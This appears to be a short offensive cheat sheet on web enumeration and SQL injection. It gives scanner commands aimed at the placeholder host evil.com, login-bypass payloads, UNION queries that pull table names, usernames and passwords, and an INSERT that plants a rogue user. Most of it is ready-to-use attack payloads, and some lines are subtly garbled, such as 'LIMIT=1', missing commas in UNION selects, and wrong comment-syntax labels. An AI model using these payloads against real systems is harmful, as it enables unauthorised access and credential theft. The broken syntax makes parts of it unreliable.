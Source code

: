 ## Enumerate
```bash
dirb evil.com -r -z10 # recursive; wait 10 milliseconds between delays
```
```bash
python3 dirsearch/dirsearch.py -u evil.com --simple-report demo-webcrawl.txt
```
```bash
nikto -h evil.com -Format txt -o demo-vulnscan-web.txt
```

Finding SQL Injection Vulnerabilities
```bash
` # single-quote
# the resulting error may indicate the underlying web server software, database software, and server OS 
```

## Exploit
SQL Comments
```
# MySQL, MariaDB
-- Oracle
/* Oracle
*/ Oracle
```

SQL Injection Attacks
```
# bypass auth (put in the username field)
victor' or 1=1; -- 

# bypass auth (put in the username field; the LIMIT keyword might be necessary for some databases)
victor' or 1=1 LIMIT=1; -- 

' ORDER BY 1 # sort results based on the values of the first column

' UNION ALL SELECT 1,2,3 # return all rows 
' UNION ALL SELECT 1,2 @@version # return the database version
' UNION ALL SELECT 1,2 user() # return the acct running the database

# return all table names
' UNION ALL SELECT 1,2 table_name FROM information_schema.tables 

# return all column names
' UNION ALL SELECT 1,2 column_name FROM information_schema.columns WHERE table_name = 'users' 

# return records from users table; put users in column 2, password in column 3 of output
' UNION ALL SELECT 1, username, password FROM users 
```

## Explore
SQL Database Queries
```sql
SELECT * FROM targetdb.usertbl # database.table
USE targetdb;
SELECT * FROM usertbl;
```

## Effect
Add a new user to a SQL database
```sql
INSERT INTO target.users(username, password) VALUES ('victor','please');
```
